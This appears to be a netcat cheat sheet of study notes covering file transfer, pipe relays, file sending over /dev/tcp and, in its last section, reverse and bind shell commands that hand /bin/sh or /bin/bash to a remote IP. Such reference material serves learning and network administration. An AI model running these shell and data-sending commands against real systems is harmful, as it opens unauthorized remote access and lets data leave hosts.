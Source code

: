 ## NETCAT: CLIENT TO LISTENER FILE TRANSFER
```
Client (sends file): nc 10.2.0.2 9001 < file.txt
Listener (receive file): nc -l -p 9001 > newfile.txt
```

## NETCAT: LISTENER TO CLIENT FILE TRANSFER
```
Listener (sends file): nc -l -p 9001 < file.txt
Client (receive file): nc 10.2.0.2 9001 > newfile.txt
```

## NETCAT RELAY DEMOS
- PC1 = nc -lp <port>
- PC2 = nc <PC1 IP><port> 0<pipe | nc <PC3 IP><port> 1>pipe
- PC3 = nc -lp <port>
- On Client Relay:
  ```
  mknod mypipe p
  nc 10.1.0.2 9002 0< mypipe | nc 10.2.0.2 9001 1> mypipe
  ```
- On Listener2 (sends info):
  ```
  nc -l -p 9002 < infile.txt
  ```
- On Listener1 (receives info):
  ```
  nc -l -p 9001 > outfile.txt
  ```
- Writes the output to listener1 and listener2 through the named pipe

## FILE TRANSFER WITH /DEV/TCP
- On the receiving box:
  ```
  nc -l -p 1111 > file.txt
  ```
- On the sending box:
  ```
  cat file.txt > /dev/tcp/10.2.0.2/1111
  ```
- This method is useful for host that does not have NETCAT available.

## REVERSE SHELL USING NETCAT
- When shelled into the remote host using -c :
  ```
  nc -c /bin/sh <your ip> <any unfiltered port>
  ```
- You could even pipe BASH through NETCAT.
  ```
  /bin/sh | nc <your ip> <any unfiltered port>
  ```
- Then listen for the shell.
  ```
  nc -l -p <same unfiltered port> -vvv
  ```
- You can also listen using the -e with NETCAT.
  ```
  nc -l -p <any unfiltered port> -e /bin/bash
  ```
